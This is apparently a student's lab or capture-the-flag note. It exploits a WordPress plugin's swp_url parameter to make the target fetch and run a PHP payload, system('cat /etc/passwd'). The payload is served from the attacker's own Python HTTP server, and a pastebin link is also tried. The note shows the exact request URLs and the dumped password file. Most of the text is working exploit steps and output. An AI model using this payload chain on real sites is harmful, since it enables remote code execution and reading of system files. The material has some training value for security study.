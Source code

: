 
ok so to make the payload then to load up a python server so it can be downloaded (via the lan)

  

echo "<pre>system('cat /etc/passwd')</pre>" > payload.txt

python3 -m http.server 80

  

And my IP is:

inet 192.168.45.233/24 scope global tun0

  

So the payload download URL is 

http://192.168.236.78/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.233/payload.txt

Didn't work so I made a raw pastebin: https://pastebin.com/raw/P6fdTXD4

  

http://192.168.236.78/wp-admin/admin-post.php?swp_debug=load_options&swp_url=https://pastebin.com/raw/P6fdTXD4

  

Forgot to add /wordpress/

  

http://192.168.236.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=https://pastebin.com/raw/P6fdTXD4

  

Pastebin didn't work but a modded version of the first one did

  

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin max:x:1000:1000:roel:/home/max:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false steven:x:1001:1001:Steven,,,:/home/steven:/bin/bash           

No changes made.
